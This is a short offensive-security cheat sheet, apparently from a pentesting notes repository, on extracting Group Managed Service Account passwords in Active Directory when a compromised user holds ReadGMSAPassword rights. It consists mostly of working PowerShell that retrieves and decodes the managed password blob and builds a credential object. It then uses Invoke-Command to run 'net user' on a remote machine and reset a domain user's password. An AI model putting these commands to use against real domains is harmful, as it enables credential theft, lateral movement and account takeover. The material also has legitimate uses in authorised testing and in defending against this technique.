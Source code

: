 # Group Managed Service Accounts
Retrieve passwords from Group Managed Service Accounts (GMSA) that you have ReadGMSAPassword permissions over.

If the user you have owned has ReadGMSAPassword permissions over a GMSA you are able to retreive this users password.

```powershell
$gmsa = Get-ADServiceAccount -Identity 'GMSA-USER' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

ConvertFrom-ADManagedPasswordBlob $mp
```

You can either obtain and reuse the plaintext password or invoke commands as the GMSA.

```powershell
# Create credential object.
$cred = new-object system.management.automation.PSCredential "DOMAIN\GMSA-USER",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

Execute commands via `Invoke-Command` as GMSA.

```powershell
Invoke-Command -ComputerName COMPUTER_NAME -Credential $cred -ScriptBlock {net user someuser password123! /domain}
```
